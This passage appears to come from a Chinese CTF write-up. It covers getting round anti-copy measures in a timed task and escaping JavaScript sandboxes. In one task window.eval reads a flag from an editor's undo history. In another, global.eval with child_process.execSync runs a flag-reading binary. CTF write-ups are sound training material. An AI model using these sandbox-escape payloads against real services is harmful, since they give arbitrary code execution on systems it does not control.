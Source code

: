 不但禁了 F12，还整了个 shadow-root 来防我。最后尝试安装 SingleFile 插件保存成 HTML，然后手动把 shadow-root 删了，再用脚本从 CSS content 解析内容，最后用 `selenium` 帮我输入。凹了几次才成功在 60 秒内干完。

### 概率题目概率过

#### T1 前端开发

题目提示这是个 CodeMirror 编辑器，我想其一定有撤销相关的代码吧，发现还真有个 `getHistory()` 函数。

看起来 WebPPL 是在 JS 上又做了一层 Parser，然后使用 eval 来运行。似乎连 lambda 和 for 都写不了。但是 `window.eval` 是没有被禁的，所以我们可以通过 `window.eval(codes.join('\n'))` 来运行任意代码。

```js
var codes = [
  'const regex = /flag\{[^}]+\}/;',
  'const cm = document.getElementsByClassName("CodeMirror")[0].CodeMirror;',
  'const history = cm.getHistory();',
  '',
  'function printChangesFromHistory(history) {',
  '  history.done.forEach(entry => {',
  '    if (!entry.changes)',
  '      return;',
  '    entry.changes.forEach(change => {',
  '      change.text.forEach(text => {',
  '        if (!text.match(regex))',
  '          return;',
  '        document.title = text;',
  '        console.log(text);',
  '      });',
  '    });',
  '  });',
  '}',
  '',
  'printChangesFromHistory(history);',
]

window.eval(codes.join('\n'))
```

#### T2 后端开发

NodeJS 没有 window，于是我问了问 LLM 怎么在 NodeJS 中执行 eval，于是找到了 `global.eval`。

```js
global.eval('import("node:child_process").then(function(c) { console.log(c.execSync("/tmp/readflag2").toString()) })');
```

### ICS笑传之抄抄榜

#### T1 哈基狮传奇之我是带佬

网上搜罗了一圈 ICS 的代码合集，还找到了篇博客 [你的评判标准很垃圾，我要用 corner case 把它炸裂](https://etaoinwu.com/blog/your-criteria-sucks/)，但我还是写不出 1 op 的浮点转换。

